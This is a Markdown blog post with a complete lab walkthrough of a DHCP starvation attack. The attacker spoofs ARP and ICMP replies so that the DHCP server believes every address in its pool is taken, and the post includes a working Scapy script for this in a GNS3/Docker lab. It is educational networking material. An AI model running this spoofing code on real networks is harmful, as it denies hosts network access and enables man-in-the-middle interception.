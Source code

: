 ```yaml
---
layout: post
title:  "DHCP starvation attack without making any DHCP requests"
date:   2020-08-20 00:00:00 -0400
tags: advanced application cybersecurity networking dhcp featured
excerpt: Most defense systems filter out repeated DHCP requests. What if you could perform DHCP starvation without sending a DCHP request?
---
```


DHCP, Dynamic host configuration protocol, is a network protocol that offers an IP address and other required details that include gateway IP, DNS IP to a host that enters a network. The DHCP protocol as defined in [RFC2131](https://tools.ietf.org/html/rfc2131) involves 4 transactions back and forth between the client and server, namely:

* DHCP Discover - broadcast from the client
* DHCP Offer - broadcast from the server
* DHCP Request - unicast from client
* DHCP ACK - unicast from server

[Wikipedia explains the DHCP protocol amazingly!](https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol)

## DHCP Attacks

Similar to the ARP protocol, due to its inability to authenticate users who enter the network, there have been multiple types of attacks on the protocol. Here are some of the well-known DHCP attacks:

* **DHCP Snooping**: In this attack, a malicious client acts as a DHCP server and services clients as they enter the network. The malicious client could send custom gateway and DNS server IPs to establish itself as a man-in-the-middle and perform DNS poisoning.
* **DHCP Starvation**: In this attack, a malicious client sends multiple DHCP requests and holds all the IP address present in the DHCP pool, thereby not allowing any new host to join the network. Denial of Service.

## DHCP starvation - Protocol dissection

The following image shows a screenshot of the packet capture during a DHCP transaction.

![Packet capture of DHCP transactions](/assets/img/dhcp-starvation/dhcp.png)
<br/><small style="color: gray">Packet capture of DHCP transactions</small><br/>

### What is ARP doing here?

The DHCP server broadcasts an ARP request followed by an ICMP request to ensure that the IP address that it is going to DHCP Offer is indeed available. Eureka?

Why does one need to make a DHCP request to starve the DHCP pool? Most of the defensive systems look for repeated DHCP requests from the same MAC address. What if I replied to DHCP's ARP request and made DHCP believe that the IP address is already in use?

Thus, in this article let's see how one can carry out ARP spoofing to impersonate a client that does not exist to make the DHCP server believe that the IP address that is picked from the pool to make DHCP Offer is already held by another client.

## The Experiment

In this experiment, let us use [GNS3](https://www.gns3.com/), a network simulation tool, and [Docker](https://www.docker.com/) containers as a DHCP server, a malicious client, and a benign client.

### DHCP Server

Let us create a DHCP server from scratch. Login to the GNS3 VM (this is where containers spin up). ISC DHCP server software is used to configure and run a DHCP server in ubuntu container [[Reference](https://www.tecmint.com/install-dhcp-server-in-ubuntu-debian/)].

* Create a Dockerfile with the following contents:

```dockerfile
FROM ubuntu
RUN apt-get update && apt-get install -y vim net-tools isc-dhcp-server
```

* Build the docker image by running `docker build -t dhcp-server .`
* Then, import the built docker image as a GNS3 appliance. [how](https://docs.gns3.com/docs/emulators/docker-support-in-gns3/)?
* Drag in the created appliance into the GNS3 workspace.
* Start the server by right-clicking and selecting "start". Double-click the node to get a console.
* Navigate to `/etc/dhcp` and append the following content to the `dhcpd.conf` file.

```
subnet 192.168.1.0 netmask 255.255.255.0 {
    range 192.168.1.150 192.168.1.160;
    option routers 192.168.1.1;
    option domain-name-servers 192.168.1.1;
    option domain-name "example.org";
}
```

* Create an empty file, for the DHCP server to hold the leased IP addresses, by running the command:

```bash
touch /var/lib/dhcp/dhcpd.lease
```

* Further, assign an IP address to the DHCP server by running the following command:

```bash
ifconfig eth0 192.168.1.1/24
```

* Finally, startup the DHCP server by running the command `dhcpd`

### Malicious Client and Benign Client

The malicious client is a Linux machine with [scapy](https://scapy.net/) installed, [`ehlers/scapy`](https://hub.docker.com/r/ehlers/scapy). Import this docker image to GNS3 as an appliance too, and drag in an instance of this into the workspace. Right-click on the malicious client instance on the workspace and `edit config` to uncomment the lines under DHCP config. This configures the instance to obtain an IP address from the DHCP server.

![Malicious client configuration](/assets/img/dhcp-starvation/mal-client.png)

Before we start up the malicious client, drag in a GNS3 default switch to the workspace. Then, connect the malicious client and the DHCP server to the switch. Drag in another instance of `ehlers/scapy` which plays the role of a benign client. Edit the configuration to make it look similar to the malicious client. After the setup, the network looks similar to the following image:

![Network Topology](/assets/img/dhcp-starvation/net-topo.png)

It's time!

Right-click on the link between the DHCP server and the switch to begin packet capture. Then, startup the malicious client.

Observe that the DHCP transactions happen and the malicious client successfully gets an IP address.

## Attack

Get a console by double-clicking on the malicious client and create a `arp_spoof.py` python file with the following content.

```python
import sys

from threading import Thread
from scapy.all import *

INTERFACE = "eth0"
MY_MAC_ADDRESS = get_if_hwaddr(INTERFACE)
MY_IP_ADDRESS = get_if_addr(INTERFACE)

'''
Approach 2: Using AnsweringMachine
$ python3 arp_spoof.py
'''

class ARPSpoofer(AnsweringMachine):
    def is_request(self, request):
        return request.haslayer('ARP') and request[ARP].op == 1 and request[ARP].pdst != MY_IP_ADDRESS
    
    def make_reply(self, request):
        response = Ether()/ARP()

        response[Ether].dst = request[Ether].src
        response[Ether].src = MY_MAC_ADDRESS

        response[ARP].op = 2
        response[ARP].hwsrc = MY_MAC_ADDRESS
        response[ARP].hwdst = request[ARP].hwsrc
        response[ARP].psrc = request[ARP].pdst
        response[ARP].pdst = request[ARP].psrc

        return response[ARP]

class PingResponder(AnsweringMachine):
    def is_request(self, request):
        return request.haslayer('ICMP') and request[ICMP].type == 8 and request[IP].dst != MY_IP_ADDRESS
    
    def make_reply(self, request):
        response = Ether()/IP()/ICMP()/""

        response[Ether].dst = request[Ether].src
        response[Ether].src = MY_MAC_ADDRESS

        response[IP].src = request[IP].dst
        response[IP].dst = request[IP].src

        response[ICMP].type = 0
        response[ICMP].id = request[ICMP].id
        response[ICMP].seq = request[ICMP].seq

        response[Raw].load = request[Raw].load

        return response[IP]

arp_spoofer = Thread(target=ARPSpoofer())
arp_spoofer.start()

ping_responder = Thread(target=PingResponder())
ping_responder.start()

arp_spoofer.join()
ping_responder.join()
```

The code performs ARP spoofing and is explained in [one of my older articles](/2020/08/02/arp-spoofing-using-scapy.html) in detail. In brief, each thread listens to a specific type of request i.e. ARP request and ICMP request and responds to them accordingly. As the ARP requests are replied by the malicious node, the switch believes that the MAC address associated with the IP address in question (ARP protocol) is that of the malicious node's MAC address. That is how ARP spoofing is achieved.

Run the python code by hitting the following command:

```bash
python arp_spoof.py
```

Now, start up the benign client and observe!

### Observation

Double click on the benign client to get a console. Run, `ifconfig` and observe that the benign client hasn't received an IP address yet!

### Why?

Observe the running packet capture.

![DHCP starvation in action](/assets/img/dhcp-starvation/dhcp-starvation.png)

The benign client continuously makes DHCP Discover, while the DHCP server is busy crafting the DHCP Offer. The DHCP server is not able to find an available IP address in it's DHCP pool. It finds an IP address from the DHCP pool, checks if it already taken by another host by making an ARP request followed by an ICMP request, and that is where the malicious client jumps in to respond to those messages. Thus, the DHCP server concludes that the IP address is already taken and skips to the following available IP address in the pool. The process repeats infinitely, and the benign client stays without an IP address. Hence, a DHCP starvation attack was carried out!

> I have them all, but I can't use any! - DHCP Server

